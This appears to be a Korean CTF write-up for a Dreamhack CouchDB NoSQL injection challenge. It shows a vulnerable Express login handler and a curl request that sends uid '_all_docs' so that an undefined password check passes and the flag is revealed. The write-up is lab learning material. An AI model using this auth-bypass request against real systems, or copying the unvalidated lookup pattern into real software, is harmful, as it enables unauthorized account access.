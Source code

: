 ```yaml
---
title: "2025-07-24 NoSQL-CouchDB111"
excerpt: "CouchDB injection"

categories:
  - Problem
tags:
  - [NoSQL injection, CouchDB]

permalink: /Problem/2025-07-24 NoSQL-CouchDB111/

toc: true
toc_sticky: true

date: 2025-07-24
last_modified_at: 2025-07-24
---
```


## 🦥 본문

- app.js

```jsx
var createError = require('http-errors');
var express = require('express');
var path = require('path');
var cookieParser = require('cookie-parser');

const nano = require('nano')(`http://${process.env.COUCHDB_USER}:${process.env.COUCHDB_PASSWORD}@couchdb:5984`);
const users = nano.db.use('users');
var app = express();

// view engine setup
app.set('views', path.join(__dirname, 'views'));
app.set('view engine', 'ejs');

app.use(express.json());
app.use(express.urlencoded({ extended: false }));
app.use(cookieParser());
app.use(express.static(path.join(__dirname, 'public')));

/* GET home page. */
app.get('/', function(req, res, next) {
  res.render('index');
});

/* POST auth */
app.post('/auth', function(req, res) {
    users.get(req.body.uid, function(err, result) {
        if (err) {
            console.log(err);
            res.send('error');
            return;
        }
        if (result.upw === req.body.upw) {
            res.send(`FLAG: ${process.env.FLAG}`);
        } else {
            res.send('fail');
        }
    });
});

// catch 404 and forward to error handler
app.use(function(req, res, next) {
  next(createError(404));
});

// error handler
app.use(function(err, req, res, next) {
  // set locals, only providing error in development
  res.locals.message = err.message;
  res.locals.error = req.app.get('env') === 'development' ? err : {};

  // render the error page
  res.status(err.status || 500);
  res.render('error');
});

module.exports = app;
```

사용자로부터 uid와 upw를 받는다. uid를 통해 CouchDB에서 계정을 찾고 해당 결과에서 upw와 사용자가 보낸 upw가 같으면 FLAG가 나온다.

### 풀이과정

1. uid 값에 `_all_docs` 를 입력한다.
2. 아래와 같이 요청을 보낸다.
    
    ```jsx
    curl -X POST http://host1.dreamhack.games:17032/auth -H "Content-Type: application/json" -d '{"uid": "_all_docs"}'
    ```
    
    - uid를 `_all_docs` 를 보내면 에러 없이 get 함수가 실행된다
    - 해당 페이지에서는 upw인 키 값이 없기 때문에 result.upw는 undefined가 된다.
    - upw를 보내지 않으면 undefined가 되기 때문에 조건문을 만족하여 FLAG 값이 나온다.